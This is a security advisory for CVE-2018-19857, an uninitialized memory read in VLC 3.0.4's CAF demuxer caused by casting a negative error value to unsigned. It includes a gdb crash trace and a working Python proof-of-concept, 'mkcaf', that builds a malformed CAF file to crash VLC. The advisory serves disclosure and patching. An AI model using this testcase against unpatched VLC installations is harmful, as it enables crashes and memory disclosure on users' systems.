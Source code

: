 # CVE-2018-19857: vlc: uninitialized memory read in caf demuxer

The CAF demuxer in VLC 3.0.4 and the master branch before commit
0cc5ea748ee5ff7705dde61ab15dff8f58be39d0 may read memory from an
uninitialized pointer when processing magic cookies in CAF files.

This is caused by a typecast that converts a possibly negative return
value to an `unsigned int` in the function `ReadKukiChunk()`:

`vlc/modules/demux/caf.c`

```c
689 static int ReadKukiChunk( demux_t *p_demux, uint64_t i_size )
690 {
...
692     const uint8_t *p_peek;
...
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
702     {
703         msg_Err( p_demux, "Couldn't peek extra data" );
704         return VLC_EGENERIC;
705     }
```

With a sufficiently large `i_size`, an allocation may fail in
`vlc_stream_Peek()`.  This would result in a return value of
`VLC_ENOMEM`:

`vlc/src/input/stream.c`

```c
494 ssize_t vlc_stream_Peek(stream_t *s, const uint8_t **restrict bufp, size_t len)
495 {
...
507     if (peek == NULL)
508     {
509         peek = block_Alloc(len);
510         if (unlikely(peek == NULL))
511             return VLC_ENOMEM;
512
513         peek->i_buffer = 0;
514     }
```

`vlc/include/vlc_common.h`

```c
475 #define VLC_ENOMEM         (-2)
```

When casted to an `unsigned int`, the comparison of the return value in
`ReadKukiChunk()` won't notice the failure:

`vlc/modules/demux/caf.c`

```c
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
```

The uninitialized `p_peek` is then used to read and copy data, depending
on the codec (see `ProcessALACCookie()`, `ProcessAACCookie()` and
`ReadKukiChunk()`).  This results in a crash and/or a potential infoleak.

Testcase:

```sh
$ ./mkcaf magic.caf
$ gdb --args vlc magic.caf
(gdb) r
...
Thread 9 "vlc" received signal SIGSEGV, Segmentation fault.
...
__memmove_avx_unaligned_erms () at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364
364     ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S: No such file or directory.
(gdb) x/i $rip
=> 0x7ffff6a69f50 <__memmove_avx_unaligned_erms+368 at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364>:   vmovdqu ymm5,YMMWORD PTR [rsi+rdx*1-0x20]
...
(gdb) i r rsi rdx
rsi            0x7fffd4009a00   0x7fffd4009a00
rdx            0x41414141       0x41414141
```

`mkcaf`

```python
#!/usr/bin/python3

import sys
from struct import pack

caff = [
    # File header
    b"caff",                    # mFileType
    pack(">H", 1),              # mFileVersion
    pack(">H", 0),              # mFileFlags

    # Magic cookie chunk header
    b"kuki",                    # mChunkType
    pack(">Q", 0x41414141),     # mChunkSize
]


def main() -> int:
    if len(sys.argv) != 2:
        sys.exit("usage: {} <filename>".format(sys.argv[0]))

    with open(sys.argv[1], "wb") as f:
        f.write(b"".join(caff))
    return 0


if __name__ == "__main__":
    sys.exit(main())
```


## Solution

This issue has been assigned CVE-2018-19857 and it is fixed in the VLC
master branch[1].


## References

1. <https://git.videolan.org/?p=vlc.git;a=commit;h=0cc5ea748ee5ff7705dde61ab15dff8f58be39d0>
